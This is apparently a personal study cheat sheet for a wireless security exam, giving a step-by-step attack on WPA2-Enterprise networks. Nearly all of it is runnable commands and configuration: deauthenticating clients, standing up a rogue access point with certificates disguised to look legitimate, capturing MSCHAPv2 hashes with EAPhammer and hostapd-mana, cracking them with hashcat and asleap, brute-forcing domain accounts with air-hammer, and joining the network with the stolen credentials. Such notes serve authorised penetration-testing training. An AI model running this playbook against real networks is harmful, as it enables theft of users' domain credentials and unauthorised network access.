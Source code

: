 # [MGT] WPA2 Enterprise (WPA2-E)

Refer to this website for reference: 

https://systemweakness.com/defeating-wpa2-enterprise-peap-authentication-418829b8922c

https://github.com/drewlong/oswp_notes/tree/main

---

### **Recon**

- Passively scan in wireshark (in sudo) to look for domain name and user
    - filter for `eap` and look for “Response, Identity” packets
    
    ![Untitled](Untitled%2044.png)
    
- Use [pcapFilter.sh](http://pcapFilter.sh) to display certificates used by AP with MGT
    - `bash pcapFilter.sh -f /home/user/kali/<filename>.pcap -C`
- Check EAP Methods supported by AP
    
    ```bash
    cd /root/tools/EAP_buster/ 
    bash ./EAP_buster.sh <AP-NAME> 'domain\username' wlan0mon
    ```
    
- To find a user’s password in the domain, use EAPhammer
    - `cd /root/tools/eaphammer` - navigate to eaphammer folder
    - `python3 ./eaphammer --cert-wizard`
    - `python3 ./eaphammer -i wlan1 --auth wpa-eap --essid <AP NAME> --creds --negotiate balanced`
- Then send DEAUTH packets to disconnect client
    - `aireplay-ng -0 0 -a <AP MAC> -c <CLIENT MAC> wlan0mon`
    - IF NTLM HASHES NOT SHOWN, CHANGE CLIENT MAC
- Brute force the hash
    - `hashcat -a 0 -m 5500 <NTLM_hash> ~/rockyou.txt --force`
- If need to brute force user account in a domain using **air-hammer**
    - `cd air-hammer`
    - `echo '$DOMAIN\$USERNAME' > test.user`
    - `./air-hammer.py -i wlan1 -e <AP NAME> -p rockyou.txt -u test.user`

---

### **Main Section**

Activate monitoring mode

- `sudo airmon-ng check kill && sudo airmon-ng start <interface>`
- Check AUTH Column
    - `sudo airodump-ng <interface>`

*Note: AUTH column will say MGT*

- Change channel of wlan0mon to target AP’s channel
    - `sudo iwconfig wlan0mon channel <channel-number>`
- Capture handshake
    - `sudo airodump-ng -c <channel> -w <output_file_name> wlan0mon`
- Send deauth to client to capture handshake
    - `sudo aireplay-ng -0 0 -a <AP_MAC> -c <CLIENT_MAC> wlan0mon`
- Analyze with tshark OR wireshark if have GUI
    - `tshark -r <filename>.pcap -Y 'wlan.bssid==E8:9C:12:02:66:AA && eap && tls.handshake.certificate'`
        
        OR
        
    - `tshark -r <filename>.pcap -Y 'tls.handshake.type == 11,3'`
        
        *if using GUI:* 
        
        *View the packet details in TLSv1 Record Layer >> Handshake Protocol >> Certificate >> Right-Click Select Export Packet Bytes to save data into .der extension*
        
        `tshark -r <capture_file> -T fields -e frame.number -e tls.handshake.certificate | grep "Certificate" | cut -d' ' -f2 | xargs -I {} tshark -r <capture_file> -w cert.der -Y frame.number == {}`
        
        - **Details of the filters**
            - `<capture_file>`: Replace this with the actual filename of your capture file (e.g., mycapture.pcap).
            - `T fields`: This tells tshark to display output in a field-based format.
            - `e frame.number`: This specifies to capture the frame number.
            - `e tls.handshake.certificate`: This captures the value of the "Certificate" field in the TLS handshake.
            - `grep "Certificate"`: This filters the output to only show lines containing "Certificate".
            - `cut -d' ' -f2`: This extracts the second field (frame number) separated by space from the filtered line.
            - `xargs -I {}`: This takes the extracted frame number and passes it to the next command as `{}`.
            - `tshark -r <capture_file> -w cert.der -Y frame.number == {}`: This reruns tshark to capture the entire packet data based on the extracted frame number and writes it to a file named "cert.der" using the `w` flag.
            - `Y frame.number == {}`: This filter within the second tshark command ensures only the packet with the matching frame number is written to the output file.
- Then check validity of certificate
    - `openssl x509 -inform der -in cert.der -text`
    
    *details needed for attack include: issuer information*
    
- Edit **ca.cnf** and **server.cnf** files to less sus cert and authority fields
    - `sudo vi /etc/freeradius/3.0/certs/ca.cnf`
        - Refer to this for reference
        
        ![Untitled](Untitled%2045.png)
        
    - `sudo vi /etc/freeradius/3.0/certs/server.cnf`
        - Refer to this for reference
        
        ![Untitled](Untitled%2046.png)
        
        *What to fill in doesn’t matter, as long as its not EMPTY*
        
- Navigate to /etc/freeradius/3.0/certs/
    - Then run
        - `sudo rm dh && make`
    - *note, ignore error from freeRADIUS if it expects other configs*
- Edit /etc/hostapd-mana/mana.conf with **correct SSID, certificate paths and EAP file**
    - `sudo vi /etc/hostapd-mana/mana.conf`
    
    **Sample mana.conf**
    
    ```bash
    # Template Config File for hostapd-mana command:
    interface=wlan0
    ssid=apname
    channel=1
    ieee80211n=1
    hw_mode=g 
    # if 5ghz, set to a
    wpa=3 
    # 1 only enables WPA, 2 is WPA2
    wpa_key_mgmt=WPA-PSK
    wpa_passphrase=ANYPASSWORD 
    # actual value irrelevant, as we are trying to capture handshake, has to be between 8 - 63 characters
    wpa_pairwise=TKIP CCMP 
    # WPA only
    rsn_pairwise=TKIP CCMP 
    # WPA2 only, since using option 3, we enable both
    mana_wpaout=/home/kali/name.hccapx 
    # specifies where to save handshakes, each handshake is appended to the file, can be decrypted with hashcat -m 2500 or aircrack-ng
    # if mana_wpaout is producing error: unknown configuration item 'mana_wpaout' make sure you are using command hostapd-mana and not hostapd command
    ```
    
- Set up mana.eap_user
    - Configure `/etc/hostapd-mana/mana.eap_user` with desired protocols and AUTH methods
    - `sudo vi /etc/hostapd-mana/mana.eap_user`
- Start hostapd-mana
    - `sudo hostapd-mana /etc/hostapd-mana/mana.conf`
- Use asleap to find user based on the output from running the previous command
    - `sudo asleap -C ce:b6:98:85:c6:56:59:0c -R 72:79:f6:5a:a4:98:70:f4:58:22:c8:9d:cb:dd:73:c1:b8:9d:37:78:44:ca:ea:d4 -W /usr/share/john/password.lst`
- Create wpa_supplicant.conf file
    
    ```bash
    network={
      ssid="NetworkName" #change this
      scan_ssid=1
      key_mgmt=WPA-EAP
      identity="Domain\username" # replace this to match username from hostapd-mana output 
      password="password" # same as above
      eap=PEAP
      phase1="peaplabel=0"
      phase2="auth=MSCHAPV2"
    }
    ```
    
- Connect to network using wpa_supplicant
    - `sudo wpa_supplicant -c <config_file>`
